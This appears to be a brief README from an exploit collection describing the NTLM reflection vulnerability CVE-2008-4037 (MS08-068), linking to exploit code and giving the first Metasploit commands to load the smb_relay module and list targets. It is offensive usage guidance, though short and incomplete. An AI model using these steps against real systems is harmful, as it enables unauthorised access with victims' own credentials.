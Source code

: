 # NTLM Reflection CVE-2008-4037 MS08-068

### This vulnerability allows an attacker to redirect an incoming SMB connection back to the machine it came from and then access the victim machine using the victim’s own credentials.

## Link: https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS08-068

### Usage:

#### 1) Metasploit

 - msf > use exploit/windows/smb/smb_relay

 - msf exploit(smb_relay) > show targets
